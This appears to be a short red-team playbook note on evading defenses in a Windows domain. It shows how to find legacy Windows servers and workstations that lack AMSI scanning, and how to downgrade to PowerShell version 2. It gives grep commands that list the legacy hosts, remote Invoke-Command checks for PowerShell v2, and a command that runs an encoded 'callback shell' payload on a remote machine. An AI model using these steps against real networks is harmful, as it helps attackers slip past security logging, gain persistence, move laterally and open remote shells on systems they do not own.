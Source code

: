 # Description

The best defense evasion which is the most efficient way is to find legacy operating systems to lay a low profile in the network traffic to establish persistence to maintain access. Especially these legacy systems do not contain up-to-date security solutions. The main benefit is it is not required to re-implement the implant. It is easier to laterally pivot the machines with little effort.

## 01 - Lack of AMSI Scanner

### 1.1 - Windows Servers

- Windows Server 2003

```
$ grep 'Windows Server 2003' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2003-output.txt
```

- Windows Server 2008 R2

```
$ grep 'Windows Server 2008' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2008-output.txt
```

- Windows Server 2012

```
$ grep 'Windows Server 2012' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2012-output.txt
```

### 1.2 - Windows Workstations

- Windows XP

```
$ grep 'Windows XP' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-xp-output.txt
```

- Windows 7

```
$ grep 'Windows 7' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-7-output.txt
```

## 02 - Downgrade Powershell

### 2.1 - Enumerate Powershell Version 2

```
PS C:\> $PSVersionTable

PS C:\> Get-WindowsFeature PowerShell-V2

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Get-WindowsFeature PowerShell-V2 }

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { $PSVersionTable }
```

### 2.2 - Execute Callback Shell

```
PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { powershell -version 2 -e <base64_payload> }
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/01 - Enumeration and Discovery/Windows/Active Directory/Internal Reconnaissance/02 - Domain Controller/DC/Manual/Living off the Land|Living off the Land: Domain Controller]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/01 - Enumeration and Discovery/Windows/Active Directory/Networking/01 - IP Address/Offensive Tools/Scripts/PowerSploit|PowerSploit: Active Directory Networking]]